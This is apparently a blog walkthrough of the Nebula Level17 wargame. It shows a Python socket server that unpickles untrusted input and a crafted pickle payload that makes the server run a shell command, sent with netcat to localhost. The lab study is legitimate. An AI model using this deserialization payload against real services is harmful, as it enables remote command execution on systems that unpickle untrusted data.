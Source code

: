 ```yaml
---
title: "Exploit Exercises Nebula Level17"
date: "2016-02-22"
slug: "exploit-exercises-nebula-level17"
Categories:
- Exploit Exercises
---
```


[Level17] dictates, "There is a python script listening on port 10007 that contains a vulnerability."

Python! Nice. The nebula war game is using a variety of languages, which is fantastic. We are provided with the following source code:

        #!/usr/bin/python

        import os
        import pickle
        import time
        import socket
        import signal

        signal.signal(signal.SIGCHLD, signal.SIG_IGN)

        def server(skt):
          line = skt.recv(1024)

          obj = pickle.loads(line)

          for i in obj:
              clnt.send("why did you send me " + i + "?\n")

        skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
        skt.bind(('0.0.0.0', 10007))
        skt.listen(10)

        while True:
          clnt, addr = skt.accept()

          if(os.fork() == 0):
              clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
              server(clnt)
              exit(1)

<!--more-->

I won't spoil it, but I learned about **pickle** over at [pythonchallenge.com]. Do some additional research if you are not familiar with it.

The majority of the information on pickle will present you with this warning:

        Warning The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

Never trust the user :)

Let's craft some malicious data:

        level17@nebula:~$ cat foo
        cos
        system
        (S'getflag > /home/flag17/output'
        tR.

This data, when deserialized, instructs the system to run 'getflag > /home/flag17/output'. Let's direct it at the listener using *netcat*.

        level17@nebula:~$ nc localhost 10007 < foo
        Accepted connection from 127.0.0.1:44614^C
        level17@nebula:~$ cat /home/flag17/output
        You have successfully executed getflag on a target account

Woo, on to the next level!

[Mike][]

[Level17]: https://exploit-exercises.com/nebula/level17/ "Level17"
[pythonchallenge.com]: http://www.pythonchallenge.com/ "pythonchallenge.com"
[Mike]: /contact "Contact Mike"

